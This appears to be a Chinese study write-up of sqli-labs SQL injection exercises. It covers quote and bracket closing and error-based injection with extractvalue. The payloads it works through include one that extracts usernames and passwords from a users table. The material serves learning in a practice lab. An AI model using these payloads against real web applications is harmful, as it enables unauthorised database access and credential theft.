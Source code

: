 其他步骤与 less-1 相同，只不过变成了数字型注入

## 括号闭合（1）

1. 先判断是字符型
2. ?id=2' order by 3 --+后报错 check the manual that corresponds to your MySQL server version for the right syntax to use near 'order by 3 -- ') LIMIT 0,1' at line 1 说明要用单引号和括号来闭合
3. 其他步骤相同

## 括号闭合（2）

1. 字符型
2. ?id=2' order by 3--+ 其中 order by 后面数字不管多大都没反应，说明闭合有问题
3. 尝试把单引号改成双引号，出现报错：……use near 'order by 3-- ") LIMIT 0,1' at line 1说明应该用双引号加右括号进行闭合
4. 后续步骤相同

## 报错注入（1）

1. ?id=1' order by 100 --+ 报错 Unknown column '100' in 'order clause' 说明已经正确闭合了

2. ?id=-1'  order by 3--+ 什么都不显示

3. ?id=1'  order by 3--+ 只显示 You are in.........

4. 故意调用不存在的函数套出数据库名：?id=1' union select fuck() --+ 报错 FUNCTION security.fuck does not exist 说明数据库名为 security

5. 利用 extractvalue 报错注入：

6. ```sql
   select extractvalue(1, concat(0x7e, (select database())))
   ```

7. 注意 select database() 必须用括号括起来，才会被当成代码执行。 0x7e 是飘带符号~的代码。

8. 注意这里用 union 连接前面的句子时其实不用考虑列数有没有对齐，报错照样回显

9. 后面的步骤与前面相同

10. 遇到问题：最多默认返回32个字符，利用 substring 函数解决

11. ```sql
    union select 1,2,extractvalue('yemaster', substring(concat(0x7e, (select group_concat(username,'~',password) from users)),4,30))
    ```



利用 extractvalue() 注入：

```sql
select extractvalue('XML_document','Xpath_string') from xml
```
